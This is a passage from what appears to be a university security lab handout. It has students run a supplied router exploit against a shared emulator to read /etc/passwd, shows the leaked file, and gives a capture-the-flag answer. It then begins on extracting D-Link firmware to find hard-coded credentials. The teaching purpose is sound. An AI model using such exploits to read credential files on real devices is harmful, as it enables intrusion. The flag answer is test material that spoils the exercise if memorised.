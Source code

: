 ```bash
./exploit.py [IP address of the emulator (e.g., 35.226.1.51)] /etc/passwd
```

```bash
root:x:0:0:root:/root:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:100:sync:/bin:/bin/sync
mail:x:8:8:mail:/var/spool/mail:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
operator:x:37:37:Operator:/var:/bin/sh
haldaemon:x:68:68:hald:/:/bin/sh
dbus:x:81:81:dbus:/var/run/dbus:/bin/sh
nobody:x:99:99:nobody:/home:/bin/sh
sshd:x:103:99:Operator:/var:/bin/sh
admin:x:0:0:Default non-root user:/home/cli/menu:/usr/sbin/cli
```

The exploit code also copies the content of the `/etc/passwd` into the `test.html` page - so if you go to the `http://[emulator address]/test.html`, you should be able to see the content of `/etc/passwd` (note that, you couldn't do this via the web interface because it got blocked by the Javascript!).

{% hint style="warning" %}
Because this emulator will be shared with other students, you may see different content inside `test.html` if the other students loaded a different content inside. However, the chances of this happening should be very low. If any issues, contact the Unit Coordinator.
{% endhint %}

If you are interested, you can look at the code in the Python script `exploit.py`. It takes two arguments, the address of the emulation and the file on the router you want to look at. Of course, the script could be changed to insert a backdoor into the router and then gain access to the network that the router is connected to (but it is outside the scope of this unit).

If you would like to setup the emulation yourself and test it, I have included the instructions in the [Setup Your Emulation on Google Cloud](lab-9-iot-ci-and-cps.md#undefined) section.

### Question 1. Exploit to find the flag 

Flag: CITS1003{4ll_y0ur_r0u73r_b3l0n6_70_u5!}

Flag: Run `exploit.py` and pass the argument `flag.txt` 

## 2. Searching for Hard Coded Credentials

In this example, we are looking at firmware for the DLINK 300 wireless access point. Change directory into `/opt/samples/DIR300`. Extract the firmware file with `binwalk`.

```bash
cd /opt/samples/DIR300
binwalk -e DIR-300A1_FW105b09.bin
```
